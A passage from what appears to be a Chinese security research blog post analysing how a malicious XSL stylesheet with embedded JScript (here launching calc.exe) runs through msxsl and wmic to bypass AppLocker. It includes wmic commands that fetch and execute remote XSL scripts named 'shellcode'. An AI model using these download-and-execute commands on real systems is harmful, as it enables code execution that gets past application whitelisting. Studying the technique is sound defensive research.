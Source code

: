 **注：**

代码来源于https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/8574e0c019b17d84028833220ed0b30cf9eea84b/minimalist.xsl


## 0x03 脚本分析
---

查看xsl文件格式，发现类似于之前研究过的利用脚本(使用msxsl.exe执行xsl脚本，也是学习自Casey Smith)，内容如下：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      return nodelist.nextNode().xml;
	  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

**注：**

代码来源于https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d

我对该技术的分析文章链接：

https://3gstudent.github.io/3gstudent.github.io/Use-msxsl-to-bypass-AppLocker/


经测试，文章[《Use msxsl to bypass AppLocker》](https://3gstudent.github.io/3gstudent.github.io/Use-msxsl-to-bypass-AppLocker/)中使用的xsl脚本和xml脚本wmic均支持，只是对后缀名有要求(必须是xsl文件)

### 实际测试：

执行：

```
wmic os get /format:"https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml"
```

执行失败，提示`Invalid XSL format (or) file name.`


脚本内容不变，后缀名改为xsl，再次执行：

```
wmic os get /format:"https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xsl"
```
